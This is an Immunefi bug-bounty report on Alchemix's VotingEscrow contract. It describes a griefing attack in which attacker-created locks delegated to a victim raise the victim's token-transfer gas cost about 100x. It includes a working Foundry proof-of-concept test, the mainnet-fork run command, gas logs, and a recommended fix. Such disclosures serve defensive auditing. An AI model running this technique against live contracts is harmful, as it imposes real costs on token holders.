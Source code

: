 
# Griefing Attack using `delegate` will expose User to `100x` Cost to transfer tokens

Submitted on Sat May 18 2024 11:34:53 GMT-0400 (Atlantic Standard Time) by @Breeje for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31410

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Currently, `MAX_DELEGATES` is set to `1024`, opening up a Griefing Attack Vector that can make it `100x` more expensive for users to transfer tokens.

## Vulnerability Details

Any user can delegate the balance of the locked NFT amount to anyone by calling the `delegate` function:

```solidity

    function delegate(address delegatee) public {
        require(delegatee != address(0), "cannot delegate to zero address");
        return _delegate(msg.sender, delegatee);
    }

```


As the delegated tokens are maintained in an array that can be vulnerable to DOS attack, the `VotingEscrow` has a safety check of `MAX_DELEGATES = 1024` preventing an address from having a huge array.

```solidity

    /// @notice Maximum number of delegates a token can have
    uint256 public constant MAX_DELEGATES = 1024; // avoid too much gas

```

```solidity

    require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");

```

Delegating from an address with a shorter token list to one with a longer list is cheaper. An attacker can create a new address, lock tokens, and delegate to the victim's address, significantly increasing the gas cost for the victim to transfer `veALCX` tokens.

In the current implementation, it costs users more than 23M gas to transfer a `veALCX` token when there are 1023 delegates (see PoC for details). 

Although this won't cause a DoS due to Ethereum's gas limit of 30M, but it will increase the gas cost for users by **100x**.

## Impact Details

Griefing Attack exposes users to a `100x` increase in the cost of transferring tokens.

## Recommendation

While testing, I found that Keeping `MAX_DELEGATES` value to `128` will max cost User close to 3M Gas, around `10x` the normal cost. This can provide a balance between offering delegation and protecting users from a Griefing Attack that could increase their costs by `100x`.
        
## Proof of concept
## Proof of Concept

#### Test Code

Add the following test function in `VotingEscrow.t.sol` test.

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1023 Delegate = ", gasUsed);
    }

```

To compare gas usage with 1 delegate, run the following:

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        // for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + 1));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        // }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1 Delegate = ", gasUsed);
    }

```

#### Running the code

Use the following command to run the code:

```powershell

  forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/${ALCHEMY_API} --match-test testDelegateLimitAttack --fork-block-number 17133822 -vvv

```

#### Result

Gas required to transfer token with 1023 delegates:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 12606294184)
    Logs:
      Gas Used for 1023 Delegate =  23442846

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.26s

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

Gas required to transfer token with 1 delegate:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 2636939)
    Logs:
      Gas Used for 1 Delegate =  266145

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.40ms

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

#### Analysis of Result

* Gas required to transfer token with 1 delegate: 266k Gas

* Gas required to transfer token with 1023 delegates: 23M Gas

Given Ethereum's gas limit of 30M, the transfer function won't cause a DoS, but the gas cost can be increased by almost `100x` through this Griefing Attack.

As suggested in recommendation: By setting `MAX_DELEGATES` to 128, the gas cost required was 3.1M, close to `10x` the normal cost, striking a balance between providing the delegation feature and protecting users from this Griefing Attack.